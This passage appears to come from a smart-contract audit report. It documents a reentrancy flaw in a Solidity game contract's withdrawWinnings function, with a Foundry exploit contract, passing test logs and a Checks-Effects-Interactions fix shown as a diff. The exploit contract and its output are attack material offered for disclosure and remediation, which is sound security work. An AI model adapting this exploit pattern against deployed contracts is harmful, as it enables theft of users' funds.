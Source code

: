 ```solidity
    console2.log("player1 penddingWinning after withdraw: ", game.pendingWinnings(address(exploiter)));
}


// exploit contract
contract GameWithdrawWinningsReentrancy is Test {
    Game private _game;
    uint256 public pendingWinningDruingCallback;

    constructor(Game game) payable {
        _game = game;
    }

    function _gameClaimThrone() public {
        _game.claimThrone{value: _game.claimFee()}();
    }

    function exploit() public {
        _game.withdrawWinnings();
    }

    receive () external payable {
        pendingWinningDruingCallback = _game.pendingWinnings(address(this));
    }
}
```

PoC Results:
```
forge test -vv --match-test testWithdrawWinningsReentrancy
[⠊] Compiling...
[⠔] Compiling 1 files with Solc 0.8.29
[⠒] Solc 0.8.29 finished in 488.84ms
Compiler run successful!

Ran 1 test for test/Game.t.sol:GameTest
[PASS] testWithdrawWinningsReentrancy() (gas: 1568155)
Logs:
  player1 penddingWinning before withdraw:  95000000000000000
  player1 withdraw winnings
  player1 penddingWinning druing callback: 95000000000000000
  player1 penddingWinning after withdraw:  0

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.34ms (1.07ms CPU time)

Ran 1 test suite in 218.18ms (5.34ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

#### Recommended Mitigation
Follow the Checks-Effects-Interactions , update `pendingWinnings[msg.sender]` before transferring ETH
```diff
function withdrawWinnings() external nonReentrant {
    uint256 amount = pendingWinnings[msg.sender];
    require(amount > 0, "Game: No winnings to withdraw.");
+   pendingWinnings[msg.sender] = 0;
    (bool success, ) = payable(msg.sender).call{value: amount}("");
    require(success, "Game: Failed to withdraw winnings.");

-   pendingWinnings[msg.sender] = 0;

    emit WinningsWithdrawn(msg.sender, amount);
}
```